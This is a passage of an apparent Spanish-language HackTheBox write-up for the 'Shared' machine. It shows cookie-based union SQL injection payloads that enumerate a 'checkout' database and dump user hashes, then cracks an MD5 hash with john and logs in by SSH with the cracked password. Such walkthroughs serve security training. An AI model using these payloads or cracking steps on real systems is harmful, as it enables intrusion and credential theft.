 Y las tablas para ```checkout```

```null
Cookie: custom_cart={"' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=\"checkout\"-- -":"1"}; 
```

Para ```user```, las columnas

```null
Cookie: custom_cart={"' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=\"checkout\" and table_name=\"user\"-- -":"1"}; 
```

<img src="/writeups/assets/img/Shared-htb/7.png" alt="">

Dumpeo los datos

```null
Cookie: custom_cart={"' union select 1,group_concat(username,0x3a,password),3 from checkout.user-- -":"1"};
```

<img src="/writeups/assets/img/Shared-htb/8.png" alt="">

Lo crackeo con ```john```

```null
john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
Soleil101        (james_mason)     
1g 0:00:00:00 DONE (2023-07-27 22:09) 12.50g/s 26136Kp/s 26136Kc/s 26136KC/s Sports5..Soccer95
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

Gano acceso por SSH

```null
ssh james_mason@10.10.11.172
The authenticity of host '10.10.11.172 (10.10.11.172)' can't be established.
ED25519 key fingerprint is SHA256:UXHSnbXewSQjJVOjGF5RVNToyJZqtdQyS8hgr5P8pWM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.172' (ED25519) to the list of known hosts.
james_mason@10.10.11.172's password: 
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4
james_mason@shared:~$
```
